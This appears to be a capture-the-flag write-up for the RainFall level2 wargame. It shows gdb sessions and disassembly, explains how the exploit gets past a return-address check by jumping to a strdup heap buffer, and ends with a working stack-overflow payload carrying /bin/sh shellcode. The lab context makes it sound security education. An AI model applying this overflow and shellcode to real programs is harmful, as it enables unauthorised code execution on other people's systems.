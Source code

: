# level2

The binary presents doesn't take any arguments. It reads from `stdin` and prints it back to `stdout`. 


## Step 1
Decompile the binary with `Ghidra` gives the following code: [source.c](https://github.com/lorispuchol/rainfall/blob/main/level2/source.c) 

## Step 2
Use [Buffer overflow pattern generator
](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) to find the offset of the return address.

```console
level2@RainFall:~$ gdb level2
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb)
```

> Offset is 80

## Step 3

Try repeat the same process than level1 but it doesn't work. it print the return address in the stack. and exit

Indeed there is a __stack protector__ which verify if the return of main is in the `0xb.......` range. 

```console
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
```

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
}
```

So we can't drop at the start of the buffer (same for libc and environment variables) which are in `0xb.......` addresses.

![alt text](./Ressources/Memory-Layout-of-C-1.webp)

> High address are like `0xffffffff` and low address are like `0x08080000`. environnement variables are in the high address range like command-line arguments.


## Goal
We can see that the buffer is dup with `strdup`. `strdup` malloc a new buffer in the heap and copy the source inside.

Goal is to drop in the `strdup` buffer by finding the return address of the `strdup` function.

By doing this, we will drop the `eip` in the heap and not the stack, thus bypass the stack protector.

```console
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
=> 0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
(gdb) i r
eax            0x804a008	134520840
ecx            0x0	0
edx            0xbffff6dc	-1073744164
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff6c0	0xbffff6c0
ebp            0xbffff728	0xbffff728
esi            0x0	0
edi            0x0	0
eip            0x804853d	0x804853d <p+105>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

return address of `strdup` is `0x804a008`

can be found with `ltrace` too

## Exploit

```bash
(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A" * (80-21) + "\x08\xa0\x04\x08"'; cat) | /home/user/level2/level2
```
use a shorter shellcode found in [Shellstorm](https://shell-storm.org/shellcode/files/shellcode-752.html)